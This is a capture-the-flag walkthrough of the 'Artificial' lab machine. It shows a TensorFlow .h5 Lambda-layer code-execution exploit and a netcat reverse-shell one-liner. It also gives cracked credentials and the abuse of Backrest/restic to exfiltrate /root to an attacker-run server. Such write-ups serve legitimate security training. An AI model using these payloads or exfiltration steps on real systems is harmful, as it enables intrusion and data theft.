


## Nmap Enumeration

```bash
└─$ nmap -p $(cat ports.txt) -sVT -O --min-rate=2000 10.10.11.74
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 07:56 EDT
Nmap scan report for 10.10.11.74
Host is up (0.44s latency).

PORT     STATE  SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http           nginx 1.18.0 (Ubuntu)
8888/tcp closed sun-answerbook
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds

```


### Enumerating Port 80 (Web Server)



(NOTE: had to resolve `artificial.htb` to the machine’s IP in `/etc/hosts` before the website loaded)


A Register and Login page is present.

Creating an account and logging in, lands us in the following dashboard


We can upload model files (`.h5` files) to the webapp, and run them


`View Predictions` allow us to run the model file we have uploaded…let’s see if we can leverage this to our advantage.

## TF RCE Using .h5 File

Searching for exploits related to .h5 files lead us to the following Github page:-

https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model


The Lambda layer of the TensorFlow Keras model allows to wrap **arbitrary Python expression** as a `Layer` object which can interact with the rest of the model.

A sample RCE code has been provided to us, which we can use for our purpose:-

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

A similar code, but for gaining a reverse shell:-

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

There’s a `requirements.txt` file which the website has asked us to keep us in mind while building our .h5 file. Its contents reveal that `tensorflow-cpu==2.13.1`  is required for the .h5 file to execute


You can either create a virtual environment in python, install the required dependencies, generate the exploit file, or use a docker container to build the exploit.

Start a `netcat` listener on your attacking machine and be sure to mention the same port in the python code to generate the correct .h5 file.

```bash
└─$ nc -nvlp 5445
listening on [any] 5445 ...
```

Upload the model file and execute it.


Reverse shell obtained to the machine as user `app`

(NOTE: You can change your shell to a standard one by running the command `export TERM=xterm` )

## Owning User

Exploring the machine reveals us another user `gael` but we can’t access their directories.

Inside the `app` user’s directory, we can find a `users.db` file.

After copying the file to our machine, either through curl or netcat, you can view its contents.



We got `gael` user’s md5 password hash

Cracking it gives us the following creds:-

`gael:mattp005numbertwo`

Using this to ssh into the machine give us the user flag.


## Privilege Escalation

### Backrest Enumeration

While enumerating the system, there is a directory `backrest` found inside `/opt`  .

Backrest is a web-accessible backup solution built on top of [restic](https://restic.net/) 

[https://github.com/garethgeorge/backrest](https://github.com/garethgeorge/backrest)

So it must have some backups already stored somewhere…enumerating further leads us to `/var/backups` where we can find `backrest_backup.tar.gz` 

On exfiltrating it to our system and examining its contents reveal something interesting:-

```bash
┌──(kali㉿kali)-[~/…/Artificial/backrest/.config/backrest]
└─$ cat config.json
{
"modno": 2,
"version": 4,
"instance": "Artificial",
"auth": {
"disabled": false,
"users": [
{
"name": "backrest_root",
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
]
}
}
```

We got another set of credentials, which looks to be for the root user of the backrest service.

Cracking the bcrypt password gives us the creds:-

 `backrest_root:!@#$%^`

Now we need to find where the backrest service is running

Running [`linpeas.sh`](http://linpeas.sh) on the system and examining its output:-


examining these ports by port forwarding to our system, we find one particular port `9898` having the backrest service running


logging in us using the obtained root creds give us the following dashboard:-


The service allows you to create a repository, and it uses **`restic`**, which is in GTFOBins, meaning it can potentially be used for command execution or data exfiltration.

### Exfiltrating `/root`

Setup a restic-compatible backup server on your attacking machine:

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

(You can get the rest-server binary at https://github.com/restic/rest-server/releases/download/v0.14.0/rest-server_0.14.0_linux_amd64.tar.gz)

In the web app GUI, now let’s create a new repo, `repox` with a repository URI `rest:http://<ATTACK_MACHINE_IP>:<PORT>/repox` and any password of your choice

Next, add a new plan to backup `/root` to your repo.


Executing the plan manually backups the `/root` to out attacking machine

```bash
└─$ ./rest-server --path /tmp/restic-data --listen :12345 --no-auth

Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
Creating repository directories in /tmp/restic-data/repox
```

```bash
└─$ restic -r /tmp/restic-data/repox restore 09476881 --target ./restore

enter password for repository: 
repository d49251a3 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 09476881 of [/root] at 2025-06-25 16:23:24.038854759 +0000 UTC by root@artificial to ./restore
Summary: Restored 80 files/dirs (4.299 MiB) in 0:00

```

```bash
┌──(root㉿kali)-[/tmp/restic-data/myrepo/data]
└─$ cd restore    
                                                                                                                    
┌──(root㉿kali)-[/tmp/restic-data/myrepo/data/restore]
└─$ ls                  
root
                                                                                                                    
┌──(root㉿kali)-[/tmp/restic-data/myrepo/data/restore]
└─$ cd root        
                                                                                                                    
┌──(root㉿kali)-[/tmp/…/myrepo/data/restore/root]
└─$ ls
root.txt  scripts

```

`pwned`

(NOTE: If you want to login as `root`, there are also ssh keys in the `.ssh` directory *inside the root backup)

## Learnings

- Check version number of all software involved during compiling of exploits
- Google unknown software, terminologies and stuff.
- Port forwarding is a thing